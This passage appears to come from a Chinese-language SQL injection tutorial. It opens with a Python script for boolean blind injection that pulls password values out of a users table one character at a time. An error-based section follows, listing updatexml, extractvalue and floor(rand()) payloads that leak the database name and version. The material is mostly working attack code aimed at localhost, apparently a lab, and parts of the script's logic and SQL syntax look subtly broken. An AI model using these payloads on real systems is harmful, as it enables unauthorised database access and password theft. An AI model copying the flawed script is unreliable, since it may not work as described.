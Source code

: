 ##### 获取数据

```python
import requests

payload = ''
num_1 = 1
Raw_data_length = requests.get('http://localhost/?id=a')
count = 0
while True:
    url_columns_count = f"http://localhost/?id=a' and select count(password) from users >= {count} -- qqqqq"
    message = requests.get(url_columns_count)
    if len(message.text) > len(Raw_data_length.text):
        break
    while True:
        url_columns_length = f"http://localhost/?id=a' and char_length((select password from users limit " \
                              f"{count},1))>={num_1} -- qqqqq "
        message = requests.get(url_columns_length)
        if len(message.text) > len(Raw_data_length.text):
            break
        num_1 += 1

    for i in range(1, num_1 + 1):
        for num_2 in range(33, 126):
            url_columns = f"http://localhost/?id=a' and ascii(substr((select password from users " \
                                f"limit {count},1),{i}," \
                                f"1))={num_2} -- qqqqq "
            message = requests.get(url_columns)
            if len(message.text) == len(Raw_data_length.text):
                payload += chr(num_2)
    count += 1
    print(payload)
print("——"*10)

```

#### 报错注入

适用于后台没有屏蔽数据库的报错信息，在语法发生错误的时候输送到前端。从而获取特定的信息

`select|insert|update`都可以使用报错来获取信息

##### 报错注入方式

```sql
updatexml(xml_document,Xpathstring,new_value)
payload1：updatexml(1,concat(0x7e,(select database()),0x7e),1)
payload2：extractvalue(1,concat(0x7e,(select database())))
payload3：(select 1 from (select count(*),concat(version(),floor(rand(0)*2))xfrominformation_schema.tables group by x)a)#
```
